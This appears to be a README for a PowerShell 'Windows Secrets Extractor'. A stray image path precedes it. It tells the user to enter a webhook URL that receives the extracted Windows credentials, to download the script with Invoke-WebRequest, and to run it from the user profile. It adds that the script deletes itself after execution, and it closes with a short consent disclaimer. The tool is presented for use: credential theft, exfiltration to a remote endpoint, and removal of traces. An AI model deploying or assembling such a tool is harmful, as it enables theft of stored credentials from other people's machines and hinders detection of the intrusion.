 # Windows Secrets Extractor


### Requirements
- PowerShell **CredentialManager** Module : ``Install-Module -Name CredentialManager``


### Before Usage
- Adapt line 1 and enter your WebHook URL.

### Usage
1. Download the script :
```Invoke-WebRequest <URL> -outfile $env:USERPROFILE\extractor.ps1```
3. Run the Script : ``cd $env:USERPROFILE;.\extractor.ps1``

Note: the script self-destructs after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent

